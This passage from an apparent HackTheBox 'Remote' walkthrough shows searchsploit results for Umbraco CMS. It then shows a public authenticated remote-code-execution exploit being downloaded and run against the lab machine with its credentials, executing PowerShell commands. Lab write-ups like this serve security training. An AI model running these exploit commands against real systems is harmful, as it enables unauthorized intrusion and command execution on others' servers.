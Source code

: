 Let's see if there is any exploits found already for this software:

{% highlight bash %}
kali@kali:~$ searchsploit umbraco
----------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                      | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                               | aspx/webapps/46153.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                               | php/webapps/44988.txt
----------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
{% endhighlight %}

We see there is an remote code execution exploit for this exact version. Note that we need to be authenticated, which we got the credentials to login earlier.

## User
I start of by searching for ***umbraco 7.12.4 rce*** (I use DuckDuckGo) and find that the code is on github: [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

I familiarise myself with how it works, see the ***Usage*** and ***Examples*** sections.

I then download a copy of this code and try it out:

{% highlight bash %}
kali@kali:~$ cd HTB/Remote/
kali@kali:~/HTB/Remote$ wget https://raw.githubusercontent.com/noraj/Umbraco-RCE/master/exploit.py
--2020-08-27 03:12:38--  https://raw.githubusercontent.com/noraj/Umbraco-RCE/master/exploit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.80.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.80.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3202 (3.1K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                     100%[===================================================>]   3.13K  --.-KB/s    in 0s      

2020-08-27 03:12:39 (40.6 MB/s) - ‘exploit.py’ saved [3202/3202]

kali@kali:~/HTB/Remote$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'whoami'
iis apppool\defaultapppool
{% endhighlight %}

From here we can try going for the user flag:

{% highlight bash %}
kali@kali:~/HTB/Remote$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "dir c:/Users/Public"


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        2/19/2020   3:03 PM                Documents                                                             
d-r---        9/15/2018   3:19 AM                Downloads                                                             
d-r---        9/15/2018   3:19 AM                Music                                                                 
d-r---        9/15/2018   3:19 AM                Pictures                                                              
d-r---        9/15/2018   3:19 AM                Videos                                                                